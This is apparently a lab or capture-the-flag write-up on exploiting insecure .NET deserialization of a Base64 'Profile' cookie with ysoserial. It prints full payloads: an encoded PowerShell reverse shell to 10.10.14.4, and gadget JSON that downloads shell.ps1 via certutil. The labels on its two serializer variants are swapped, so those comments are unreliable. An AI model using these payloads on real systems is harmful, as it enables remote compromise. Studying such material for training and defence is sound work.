




I got tipsed to try to poke around the HTTP request and checking the Websites HTML we could see that website could be potentially vulnerable to JS Deserialization:



As we can see it B64 decodes the cookie profile, then is encodes as UTF8 and then it passes to a Deserialize which means we shoub try to exploit that deserialization function in other to get a RCE on the system.

So preparing out payload:

```Powershell
C:\Users\AleksandarMilosavlje\Downloads\ysoserial-1.35\Release> .\ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANAAiACwANQA1ADUANQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=" -o base64
```

And we get the B64 encoded payload:

```Bash
ew0KICAgICdfX3R5cGUnOidTeXN0ZW0uV2luZG93cy5EYXRhLk9iamVjdERhdGFQcm92aWRlciwgUHJlc2VudGF0aW9uRnJhbWV3b3JrLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNScsIA0KICAgICdNZXRob2ROYW1lJzonU3RhcnQnLA0KICAgICdPYmplY3RJbnN0YW5jZSc6ew0KICAgICAgICAnX190eXBlJzonU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODknLA0KICAgICAgICAnU3RhcnRJbmZvJzogew0KICAgICAgICAgICAgJ19fdHlwZSc6J1N5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzU3RhcnRJbmZvLCBTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgICAgICdGaWxlTmFtZSc6J2NtZCcsICdBcmd1bWVudHMnOicvYyBwb3dlcnNoZWxsIC1FbmNvZGVkQ29tbWFuZCBTUUJGQUZnQUtBQk9BR1VBZHdBdEFFOEFZZ0JxQUdVQVl3QjBBQ0FBVGdCbEFIUUFMZ0JYQUdVQVlnQkRBR3dBYVFCbEFHNEFkQUFwQUM0QVpBQnZBSGNBYmdCc0FHOEFZUUJrQUZNQWRBQnlBR2tBYmdCbkFDZ0FKd0JvQUhRQWRBQndBRG9BTHdBdkFERUFNQUF1QURFQU1BQXVBREVBTkFBdUFEUUFMd0J6QUdnQVpRQnNBR3dBTGdCd0FITUFNUUFuQUNrQScNCiAgICAgICAgfQ0KICAgIH0NCn0=
```

This payload needs to be added into a cookie named Profile.



Now refreshing the website, it should parse the new cookie, B64 decode, UTF8 encode and then deserialize. During this last step it should execute the PowerShell payload and kick in the Revshell. Edit: it's not working!

Then going back to drawing table I noticed that abblication was using Javascript serializer and not Json.net like I used in the first payload:


And adjusting the payload now should be something like this:

```Javascript
//JavascriptSerializer
C:\Users\AleksandarMilosavlje\Downloads\ysoserial-1.35\Release> .\ysoserial.exe -g ObjectDataProvider -f Json.net -c "certutil.exe -urlcache http://10.10.14.4/shell.ps1"
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c certutil.exe -urlcache http://10.10.14.4/shell.ps1']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}


//Json.net Serializer
C:\Users\AleksandarMilosavlje\Downloads\ysoserial-1.35\Release> .\ysoserial.exe -g ObjectDataProvider -f JavaScriptSerializer -c "certutil.exe -urlcache http://10.10.14.4/shell.ps1"
{
    '__type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'ObjectInstance':{
        '__type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        'StartInfo': {
            '__type':'System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
            'FileName':'cmd', 'Arguments':'/c certutil.exe -urlcache http://10.10.14.4/shell.ps1'
        }
    }
}
```

You can see that code differs indeed and this impact the execution of the Shell of not! After several test I get the code to execute using UTF-16LE which is the default for Windows:



The Download of the script get executed but not the actual revshell now I can try to change the payload into shell.

And finally we have a RCE(I used the Base64 Powershell #3 from revshells.com):

